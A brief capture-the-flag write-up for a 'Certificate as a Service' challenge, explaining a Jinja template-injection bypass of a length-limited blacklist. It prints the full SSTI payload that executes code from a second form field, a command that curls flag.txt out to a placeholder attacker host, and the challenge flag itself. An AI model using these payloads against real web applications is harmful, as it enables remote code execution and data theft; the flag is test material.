 # CaaS | NoobMaster

- Description: Curl as a Service is old, welcome to Certificate as a Service! Note: flag is in flag.txt

# Writeup
It's a SSTI challenge in the name field. The thing is that the blacklist is too big, and it's very hard to fit a payload to get the flag using 70 or less characters. But as you can see, we have two input options, name and team name. We can input a payload in the name field to execute our command in the team name field! Payload - {`{request.application.__builtins__.exec(request.values["team_name"])}}`. What this does is that it executes our input in the team name field. This payload is exactly 70 characters. Now in the team name field, you cannot print the data but you can use curl to send the flag to yourself. Final payload(name field)- `{{request.application.__builtins__.exec(request.values["team_name"])}}`. Team name field - `import os; os.system("curl https://YOUR_WEBSITE_LINK -d @flag.txt")`. The YOUR_WEBSITE_LINK is a simple website link, something like ngrok or beeceptor

# Flag: n00bz{5571_57r1k3s_4g41n_7a1b3f4e5d}